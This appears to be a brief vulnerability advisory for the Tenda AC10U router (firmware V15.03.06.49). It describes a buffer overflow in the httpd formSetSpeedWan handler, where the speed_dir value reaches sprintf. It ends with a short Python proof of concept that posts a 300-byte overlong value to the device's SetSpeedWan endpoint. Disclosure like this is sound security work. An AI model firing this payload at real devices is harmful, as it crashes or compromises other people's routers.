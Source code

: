 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetSpeedWan

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](13.png)

get value from speed_dir, then call sprintf, cause buff overflow





## POC
```
url = "http://192.168.1.13/goform/SetSpeedWan"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'speed_dir': payload})
``` 
